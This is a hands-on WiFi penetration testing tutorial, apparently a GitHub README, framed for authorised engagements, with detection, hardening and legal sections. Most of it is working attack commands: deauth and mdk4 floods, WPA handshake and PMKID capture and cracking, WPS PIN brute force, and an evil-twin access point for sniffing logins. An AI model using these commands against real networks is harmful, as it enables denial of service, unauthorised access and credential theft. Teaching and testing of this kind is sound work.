



# WiFi Hacking and Penetration Testing Guide

A hands-on WiFi hacking and penetration testing guide, written from my own lab notes. It walks the full wireless workflow the way I run it on an authorised engagement: recon, monitor mode, capturing a WPA/WPA2 handshake, cracking it offline, WPS, the evil twin, and just as importantly how a blue team detects and shuts all of this down.

It shows how a real attacker actually attacks, then replicates those same attacks in a lab you control, so you understand each one hands-on and not just in theory.

> **Read this first.** For networks you own or have **written permission** to test, in a lab you control. Attacking or jamming WiFi you do not own is illegal almost everywhere (see [legal](#legal)). This exists so defenders understand the attack.

## Scope and safety boundaries
<a id="scope"></a>

Wireless reaches past the building wall, so staying in an agreed scope is the control that matters most.

- **Authorization first.** Do nothing until a signed rules-of-engagement names what is in scope (SSIDs, BSSIDs, location, window, test accounts) and what is not. That signature is the only thing between a pentest and a crime.
- **In scope only.** Recon shows dozens of networks; touch only the ones listed. Never read or store a third party's traffic.
- **No sustained denial of service.** Deauth/beacon/auth floods are lab-only, brief, to produce a detection signature. Almost never in scope against production.
- **No credential harvesting outside the RoE.** Evil-twin and RADIUS tests only when named, against test identities and labelled lab SSIDs.
- **Handle data carefully.** Store captures encrypted, redact evidence, destroy secrets after the report.
- **If something breaks, stop** and call the named contact.

Any disruptive or credential-capturing step below is marked **lab only**: run it against hardware you own or an isolated test SSID.

## Contents
<a id="contents"></a>

1. [How a hacker cracks a home WiFi password](#overview)
2. [What you need](#what-you-need)
3. [What WiFi adapter to buy](#adapters)
4. [External adapter not showing up? Install the driver](#drivers)
5. [Install the tools](#install)
6. [How to turn on monitor mode](#monitor)
7. [How to scan for networks and clients](#scan)
8. [How to lock onto one target](#lock)
9. [How to capture the handshake](#capture)
10. [How to crack it offline](#crack)
11. [Ways a hacker disrupts or disconnects people](#disrupt)
12. [How to attack WPS](#wps)
13. [The evil twin](#evil-twin)
14. [How the blue team detects it](#detect)
15. [Hardening and defence](#hardening)
16. [Troubleshooting](#troubleshooting)
17. [Legal and ethics](#legal)

## How a hacker cracks a home WiFi password
<a id="overview"></a>

The whole attack is four steps. The rest of this guide demonstrates each one in order.



<div align="center">
  
</div>

Now let us demonstrate it, starting with the adapter.

## What you need
<a id="what-you-need"></a>

**A WiFi adapter with monitor mode and packet injection.** The one piece of kit that matters.

- **Monitor mode** listens to every 802.11 frame in the air, not just your own network; **injection** sends crafted frames like deauth. Together they are what airodump and aireplay need.
- **Myth:** monitor mode does not harm your card, it is a software mode. Many laptop internal cards (especially Intel) just do not support it well. Fix: an external USB adapter with a known-good chipset.
- **Linux:** Kali or Parrot (main OS, dual boot, or live USB). In a VM, pass the USB adapter through to the guest.

## What WiFi adapter to buy
<a id="adapters"></a>

The chipset is everything. These have solid monitor mode and injection on Linux.

| Adapter | Chipset | Bands | Notes |
| --- | --- | --- | --- |
| **Alfa AWUS036NHA** | Atheros AR9271 | 2.4GHz | The classic. Rock-solid injection, works out of the box on Kali. |
| **Alfa AWUS036ACM** | MediaTek MT7612U | 2.4 / 5GHz | Best modern dual-band, in-kernel driver, no out-of-tree mess. |
| **Alfa AWUS036ACH** | RTL8812AU | 2.4 / 5GHz | Dual-band, long range, needs the `8812au` driver on some kernels. |
| **TP-Link TL-WN722N v1** | Atheros AR9271 | 2.4GHz | Great, but **only v1** (v2/v3 use a Realtek chip needing patched drivers). |

On a budget / in India, a TP-Link Archer T2U Plus (RTL8821AU, ~1000 INR) works to learn on; just know its monitor mode is less reliable than an Alfa.

## External adapter not showing up? Install the driver
<a id="drivers"></a>

**Parrot vs Kali.** On **Parrot** most of these drivers ship preinstalled. On **Kali** they usually do not: if no `wlanX` appears, you need to build the driver. That, not a broken adapter, is almost always why it "does not show up".

**Step 1: plug it in and identify it.**

```bash
lsusb                  # find your adapter and read its chipset
iwconfig               # does a wlanX appear? if not, you need a driver
sudo dmesg | tail -20  # what the kernel tried to load
```

**Step 2: match the chipset to a driver** (aircrack-ng forks, best injection support):

| Chipset (from `lsusb`) | Driver repo |
| --- | --- |
| Realtek **8812au / 8821au** | [rtl8812au](https://github.com/aircrack-ng/rtl8812au) |
| Realtek **8814au** | [rtl8814au](https://github.com/aircrack-ng/rtl8814au) |
| Realtek **8188eus / 8188eu** | [rtl8188eus](https://github.com/aircrack-ng/rtl8188eus) |
| Atheros **AR9271**, MediaTek **MT7612U** | in-kernel, no build needed |

**Step 3a: install with the script (easiest).** `Documents/driver-setup.sh` identifies your adapter and builds the driver you pick via DKMS (survives kernel updates):

```bash
git clone https://github.com/Esther7171/WiFi-Hacking-Guide
cd WiFi-Hacking-Guide
chmod +x Documents/driver-setup.sh
sudo ./Documents/driver-setup.sh
```

**Step 3b: or build by hand** (example for 8812au; the others install the same way):

```bash
sudo apt install -y git dkms build-essential libelf-dev linux-headers-$(uname -r)
git clone --depth 1 https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au
sudo make dkms_install
```

After any build, **unplug and replug the adapter** (or reboot), then confirm with `lsusb` and `iwconfig`.

## Install the tools
<a id="install"></a>

On Kali most are already present:

```bash
sudo apt update
sudo apt install aircrack-ng hashcat hcxdumptool hcxtools wifite reaver bully hostapd dnsmasq mdk4 macchanger -y
```

`Documents/install.sh` runs this in one go and can also build the drivers. Safe to re-run.

## How to turn on monitor mode
<a id="monitor"></a>

Find the adapter and its interface name:

```bash
lsusb
iwconfig        # usually wlan0; it will say Mode:Managed
```

### How to turn on monitor mode manually (iw / ifconfig)

```bash
sudo airmon-ng check kill           # stop NetworkManager/wpa_supplicant (this drops your WiFi)
sudo ifconfig wlan0 down
sudo iw wlan0 set monitor control   # modern way. Older: sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
iwconfig                            # confirm Mode:Monitor
```

### How to turn on monitor mode with airmon-ng

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0          # renames the interface to wlan0mon
```

### How to check your adapter can do packet injection

```bash
sudo aireplay-ng --test wlan0mon
```

A healthy adapter reports APs responding and injected packets getting through.

## How to scan for networks and clients
<a id="scan"></a>

```bash
sudo airodump-ng wlan0mon --band abg   # abg = scan 2.4 + 5 GHz (a=5GHz, b/g=2.4GHz)
```

*Screenshot: airodump-ng scan showing APs (BSSID, power, channel, encryption) and the connected client stations.*

What the columns mean:

- **BSSID** the AP's MAC address
- **PWR** signal strength (closer to 0 is stronger; -39 strong, -75 faint)
- **CH** channel
- **ENC / CIPHER / AUTH** the security (WPA2/CCMP/PSK is normal; OPN is open)
- **ESSID** the network name
- The lower pane lists **STATION**s, the clients connected to each AP

## How to lock onto one target
<a id="lock"></a>

Pick the in-scope target, stop sweeping, and watch only it on its channel, writing to disk:

```bash
sudo airodump-ng --bssid 3C:84:6A:11:22:33 -c 11 --write capture wlan0mon
```

`--write capture` saves to `capture-01.cap`. Leave it running: this is what catches the handshake.

## How to capture the handshake
<a id="capture"></a>

A WPA/WPA2 network only exposes its password (as a hash) during the four-way **handshake** when a client joins. Wait for one, or force it: deauth a connected client so it reconnects, and catch the handshake on the way back in.

With the targeted airodump still running, in another terminal send a short, targeted deauth:

```bash
sudo aireplay-ng --deauth 10 -a 3C:84:6A:11:22:33 -c 54:EF:44:AA:BB:CC wlan0mon
```

- `-a` the AP's BSSID, `-c` the client to bump (leave off to hit all clients)
- `--deauth 10` ten frames then stop: a nudge, not a flood

*Screenshot: aireplay-ng deauth output, and airodump-ng showing the `WPA handshake: <BSSID>` banner on the reconnect.*

The `.cap` file now holds the hash. Cracking happens offline, away from the target.

### PMKID (often no deauth needed)

Modern networks often leak a **PMKID** you can grab from the AP directly, no client and no deauth:

```bash
echo "3C846A112233" > target.txt
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1 --filterlist_ap=target.txt --filtermode=2
```

*Screenshot: hcxdumptool capturing a PMKID with no client connected.*

## How to crack it offline
<a id="crack"></a>

Cracking is just guessing the password against the captured hash. You never touch the network for this.

Convert to the modern 22000 format, then crack with hashcat (GPU):

```bash
hcxpcapngtool -o hash.22000 capture.pcapng
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

*Screenshot: hashcat showing "Cracked" and the recovered password.*

Quick CPU alternative, and John:

```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=wpapsk-opencl hash.22000
```

A generic list rarely beats a password someone chose. Build a targeted one with **cewl** (scrape the site), **cupp** (profile a person), or **crunch** (patterns). On real engagements this step, not the attack, decides success.

## Ways a hacker disrupts or disconnects people
<a id="disrupt"></a>

Beyond capturing a handshake, these are the ways a hacker disrupts or disconnects clients. Each is **lab only**: run it against an AP you own or that is explicitly in scope, briefly, to generate a signature the blue team then detects.



### Continuous deauth (aireplay-ng)

Drop the count to `0` and it sends until Ctrl+C. Omit `-c` to hit every client:

```bash
sudo aireplay-ng --deauth 0 -a 3C:84:6A:11:22:33 wlan0mon                      # all clients
sudo aireplay-ng --deauth 0 -a 3C:84:6A:11:22:33 -c 54:EF:44:AA:BB:CC wlan0mon # one client
```

### Mass deauth, beacon flood, and freeze (mdk4)

When aireplay-ng injection is weak, **mdk4** is the heavier all-round stress tool. It needs a card already in monitor mode.

*Screenshot: mdk4 deauth flood (mode d) and beacon flood (mode b).*

```bash
# Deauth EVERY client/AP it sees on a channel
sudo mdk4 wlan0mon d -c 1
# Deauth only specific APs (one BSSID per line)
echo 3C:84:6A:11:22:33 > targets.txt
sudo mdk4 wlan0mon d -b targets.txt -c 1

# Beacon flood: random fake SSIDs / from a wordlist / one named
sudo mdk4 wlan0mon b
sudo mdk4 wlan0mon b -f ssids.txt
sudo mdk4 wlan0mon b -n FakeCorp

# Freeze an AP: auth DoS floods its client table until it resets
sudo mdk4 wlan0mon a -a 3C:84:6A:11:22:33
# Michael shutdown (LEGACY TKIP only): shuts the AP down ~60s
sudo mdk4 wlan0mon m -t 3C:84:6A:11:22:33
```

mdk4 modes: `b` beacon flood, `a` auth DoS, `d` deauth, `m` TKIP Michael, `p` probe, `e` EAPOL, `s` mesh, `w` WIDS confusion, `f` fuzzer, `x` protocol PoC. Run `mdk4 --fullhelp` for all.

### Fake authentication (aireplay-ng --fakeauth)

Associate with an AP that has no clients so you can inject (classic WEP step):

```bash
sudo aireplay-ng --fakeauth 0 -a <router-mac> -h <your-mac> wlan0mon   # prints "Association successful :-)"
```

> **802.11w / PMF defeats the deauth and auth-DoS modes** (`a`, `d`, `e`): forged management frames are ignored. That one setting kills most of this.

## How to attack WPS
<a id="wps"></a>

WPS is an eight-digit PIN feature that can be brute forced. Find WPS APs, then brute an unlocked one:

```bash
sudo wash -i wlan0mon                                          # find WPS APs
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -vv               # brute the PIN
sudo bully  wlan0mon -b 00:11:22:33:44:55 -e TargetESSID -c 11 # alternative
```

*Screenshot: wash listing WPS APs, and reaver recovering the WPS PIN and WPA PSK.*

Only `WPS Locked: No` APs are worth it. If WPS is on, passphrase length barely matters: turning WPS off is one of the highest-value fixes.

## The evil twin
<a id="evil-twin"></a>

A fake copy of a real network. It answers one defensive question: **will staff devices silently trust a lookalike AP, and what leaks if they do?** Lab only, with a clearly labelled test SSID, never a production corporate SSID.

```bash
sudo airbase-ng -a AA:BB:CC:DD:EE:FF --essid TargetESSID -c 6 wlan0mon   # stand up the lookalike (tap at0)
```

Bridge `at0` to your internet-facing interface, run DHCP, and nudge clients over with a bounded deauth. Open Wireshark on the bridge: any cleartext from a reconnected client is visible. One screenshot of a staff login over plain HTTP does more to get HTTPS and a VPN mandated than any paragraph.

## How the blue team detects it
<a id="detect"></a>

Did anyone see it? Deauth frames are management frames with subtype `0x0c` (12). Watch for them live:

```bash
sudo tshark -i wlan0mon -Y "wlan.fc.type_subtype == 12" -T fields -e frame.time -e wlan.sa -e wlan.da
```

*Screenshot: tshark showing a burst of broadcast deauth frames, the signature of a deauth attack.*

The signatures of an attack in progress:



A wireless IDS (**Kismet**, **nzyme**) alerts on all of this. The test checks the client has one, its alerts reach a human, and someone triages them. An alert nobody reads is the same as no alert.

## Hardening and defence
<a id="hardening"></a>

- **Enable 802.11w (PMF).** Signs management frames, so forged deauths are ignored. Kills the deauth attack outright.
- **Use WPA3, or WPA2 with a long random passphrase.** A 20+ character passphrase is not getting cracked from a wordlist.
- **Turn WPS off.** A strong password is pointless if the PIN is brute forceable.
- **Deploy a wireless IDS** (Kismet, nzyme, or the vendor's own) and make sure alerts reach a human.
- **Segment guest and corporate WiFi,** and put corporate on 802.1X rather than a shared PSK.
- **Move sensitive devices to 5GHz / WPA3,** out of reach of cheap 2.4GHz-only attack hardware.
- Keep AP firmware current, and watch controller logs for repeated disassociations and unknown MACs.

## Troubleshooting
<a id="troubleshooting"></a>

- **WiFi gone / card stuck in monitor mode:**
  ```bash
  sudo airmon-ng stop wlan0mon
  sudo systemctl restart NetworkManager
  ```
- **"Fixed channel: -1" or injection failing:** a background process grabbed the card. Run `sudo airmon-ng check kill` again.
- **Adapter not in `iwconfig`:** check `lsusb` and `dmesg | tail`; dual-band Realtek cards often need their out-of-tree driver.
- **Spoof your MAC:**
  ```bash
  sudo ifconfig wlan0 down
  sudo macchanger -r wlan0      # random, or -m AA:BB:CC:DD:EE:FF
  sudo ifconfig wlan0 up
  ```

## Legal and ethics
<a id="legal"></a>

Only test networks you own or have **explicit written permission** to test. Unauthorised access, capture, or disruption is a crime. A signed scope document is the line between a penetration test and an offence.

**India.** Jamming or blocking radio signals is illegal without a licence (Indian Wireless Telegraphy Act 1933, Indian Telegraph Act 1885). Unauthorised access and data capture fall under the IT Act 2000, Sections 43 and 66. Deauthing or cracking a WiFi network you do not own can trigger both.

**International.** Most countries criminalise unauthorised access (US Computer Fraud and Abuse Act, UK Computer Misuse Act); the Budapest Convention is the main cross-border instrument. Wherever you are: get permission in writing, stay in scope, and do not touch anyone else's network.

---

*Written as educational and defensive security material. Use it to understand wireless attacks and to defend against them.*
